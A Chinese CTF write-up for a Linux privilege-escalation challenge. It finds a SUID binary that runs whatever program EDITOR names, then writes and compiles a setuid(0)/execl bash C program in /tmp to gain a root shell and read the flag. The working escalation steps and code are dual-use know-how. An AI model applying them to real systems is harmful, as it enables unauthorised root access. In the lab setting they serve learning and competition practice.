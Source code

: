 # ?CTF 2025 Platform(公开赛道) - [Week2] 《关于我穿越到CTF的异世界这档事:破》 （难度：Lunatic下位）
**Writer：DreamLost（QQ ID：Scarlet Secret）**<br>
**Solve Time: 2025-10-11 11:33:30**<br>
**Rank #1**<br>
## 题目背景

metavi穿过第一层的光之门，眼前是一片由无数黑色石柱组成的荒原。石柱表面闪烁着绿色的字符流，仿佛是某种古老的系统在运转。
石柱的底层写着：用户：ctf，密码：CtfP@ssw0rd!2025
看完这一行之后，脚下的大地裂开，露出一座巨大的“终端祭坛”。祭坛上浮现出一行行命令，却被层层权限屏障所阻挡。 要想突破这一关，metavi必须找到隐藏在系统中的漏洞，逐步提升权限，直至掌控整个祭坛。
【第二层·linux提权：请ssh连接提权，找到祭坛深处的flag。】

## 解题步骤：

登录，使用ls时候会看到家目录下面有文件“note.txt”
内容是：Think About SUID

于是使用find查询系统内的SUID文件：
`find / -type f -perm -4000 2>/dev/null`

得到：
```
/usr/local/bin/editnote
/usr/bin/chsh
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
```

此时如果我们cat一下这个神奇的“editnote”，得：
```
�'GN�e�m)X t 0� ""__cxa_finalize__libc_start_mainexeclpgetenvperrorlibc.so.6GLIBC_2.34GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTable7���Au␦i     L��@�?�?�?�?��?�?�?��H�H��/H��t��H���5�/��%�/��h���������h���������h�����������%�/D����%E/D����%=/D����%5/D��1�I��^H��H���PTE1�1�H�=��/�f.�H�=9/H�2/H9�tH��.H��t        �����H�=       /H�5/H)�H��H��?H��H�H��tH��.H����fD�����=�.u+UH�=�.H��t
                                                      H�=�.������d�����.]������w�����UH��H�� �}�H�u�H�aH�������H�E�H�}�t
                                                                                                                       H�E����u
       H�CH�E�H�;H�E�H�U�H�u�H�E�H�Ǹ����H�&H���|��������H�H��EDITORvi/home/ctf/notes.txtexeclp failed4����h0����@����p���PY����zRx
         ���&D$4����@FJ
y                      �?␦:*3$"\����t����0������E�C
�@7

�␦����o���
�
 �?HP� ������o`���o���oN���o�=0@@GCC: (Ubuntu 11.4.0-1ubuntu1~22.04.2) 11.4.0�� � ��� 3@I␦@U�=|���=������!����=�0 ��?�" M @>@E
      K@X @t �␦@Q�&�␦@�����@� ��"
                                 Scrt1.o__abi_tagcrtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.0__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entryeditnote.c__FRAME_END___DYNAMIC__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE_getenv@GLIBC_2.2.5__libc_start_main@GLIBC_2.34_ITM_deregisterTMCloneTable_edata_fini__data_start__gmon_start____dso_handle_IO_stdin_used_end__bss_startmainperror@GLIBC_2.2.5__TMC_END___ITM_registerTMCloneTableexeclp@GLIBC_2.2.5__cxa_finalize@GLIBC_2.2.5_init.symtab.strtab.shstrtab.interp.note.gnu.property.note.gnu.build-id.note.ABI-tag.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.plt.sec.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.dynamic.data.bss.comment#886hh$I�� W���o��a
                                                                      ��i���q���oNN~���o``����BPP�  @�``�pp0���k�

�  0�0 0 4�h h ������=�-��?�@0
                            @00-@0�     �3�5␦
```

我们可以从中提取出这样的信息：
""__cxa_finalize__libc_start_mainexeclpgetenvperrorlibc.so.6GLIBC_2.34GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTable

提取其中的关键字：
main**execlp** **getenv** **perror** **EDITOR**
其中**execlp**表明这个程序会执行一个外部程序，**getenv**显然是读取用户或者全局的环境变量，而大写的**EDITOR**就是getenv所读取的**环境变量**

我试着直接执行这个程序，回弹：
```
ctf@cl-161-2f56e14ea5a452da:~$ editnote
execlp failed: No such file or directory
```
没错，显然这个执行了一个很奇怪的文件。
最开始，我先试着去编辑了一下notes.txt

    ctf@cl-161-2f56e14ea5a452da:~$ cat > notes.txt << 'EOF'
    > /bin/bash -p
    > EOF

随后我尝试编辑EDITOR并执行editnote
```
ctf@cl-161-2f56e14ea5a452da:~$ export EDITOR="/home/ctf/notes.txt"
ctf@cl-161-2f56e14ea5a452da:~$ editnote
execlp failed: Permission denied
ctf@cl-161-2f56e14ea5a452da:~$
```
可以看出这确实会执行一个外部文件，那么我可以编写一个简单的程序并尝试透过SUID来以root执行，以此拿到rootshell。
但是这需要：
1.服务器有对应语言的编译器
2.有位置可读可写可执行

首先我们用which来查看服务器上有哪些编译器：
```shell
ctf@cl-161-2f56e14ea5a452da:~$ which python php gcc g++ java
/usr/bin/gcc
/usr/bin/g++
```
第一个条件找到了：我们可以用c或者c++来编写一个提权的程序，但是哪里是可执行可读写的目录呢？
此时我想到了/tmp目录，它刚好符合这个特征，使用**ls -l /**来验证一下
```shell
ctf@cl-161-2f56e14ea5a452da:~$ which python php gcc g++ java
/usr/bin/gcc
/usr/bin/g++
```

现在的思路很明确：编写一个C语言程序，使用**SUID的继承性**来运行这个程序就可以以Root权限来执行这个提权程序。
cat命令刚好可以让我们在服务器上编写好这个程序：
```shell
ctf@cl-161-2f56e14ea5a452da:~$ cat > /tmp/getroot.c << 'EOF'
#include <unistd.h>
//unistd.h 是一个在 C 和 C++ 程序设计语言中非常重要的头文件，它提供了对 POSIX 操作系统 API 的访问。
int main() {
    setuid(0);//设置程序的uid为0
    execl("/bin/bash", "bash", NULL);//以继承的root(UID=0)权限执行/bin/bash
    return 0;
}
EOF
ctf@cl-161-2f56e14ea5a452da:~$
```
、
编译，执行得到root shell
```shell
ctf@cl-161-2f56e14ea5a452da:~$ gcc /tmp/getroot.c -o /tmp/shellget
ctf@cl-161-2f56e14ea5a452da:~$ export EDITOR="/tmp/shellget"
ctf@cl-161-2f56e14ea5a452da:~$ editnote
root@cl-161-2f56e14ea5a452da:~#
```
得到root shell
使用find找寻flag文件
```shell
root@cl-161-2f56e14ea5a452da:~# find / -name "flag*"
/root/flag.txt
find: '/proc/1/task/1/fdinfo': Permission denied
find: '/proc/1/map_files': Permission denied
find: '/proc/1/fdinfo': Permission denied
find: '/proc/9/task/9/fdinfo': Permission denied
find: '/proc/9/map_files': Permission denied
find: '/proc/9/fdinfo': Permission denied
find: '/proc/20/task/20/fdinfo': Permission denied
find: '/proc/20/map_files': Permission denied
find: '/proc/20/fdinfo': Permission denied
find: '/proc/21/task/21/fdinfo': Permission denied
find: '/proc/21/map_files': Permission denied
find: '/proc/21/fdinfo': Permission denied
find: '/proc/27/task/27/fdinfo': Permission denied
find: '/proc/27/map_files': Permission denied
find: '/proc/27/fdinfo': Permission denied
find: '/proc/38/task/38/fdinfo': Permission denied
find: '/proc/38/map_files': Permission denied
find: '/proc/38/fdinfo': Permission denied
find: '/proc/39/task/39/fdinfo': Permission denied
find: '/proc/39/map_files': Permission denied
find: '/proc/39/fdinfo': Permission denied
find: '/proc/48/task/48/fdinfo': Permission denied
find: '/proc/48/map_files': Permission denied
find: '/proc/48/fdinfo': Permission denied
find: '/proc/59/task/59/fdinfo': Permission denied
find: '/proc/59/map_files': Permission denied
find: '/proc/59/fdinfo': Permission denied
find: '/proc/60/task/60/fdinfo': Permission denied
find: '/proc/60/map_files': Permission denied
find: '/proc/60/fdinfo': Permission denied
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/tunl0/flags
root@cl-161-2f56e14ea5a452da:~#
```
去/root目录查看flag：
得到
```shell
root@cl-161-2f56e14ea5a452da:~# cat /root/flag.txt
flag{043209e6-2cf5-453d-9c30-fe5851892154}
```

所以，flag正式浮出水面：flag{043209e6-2cf5-453d-9c30-fe5851892154}
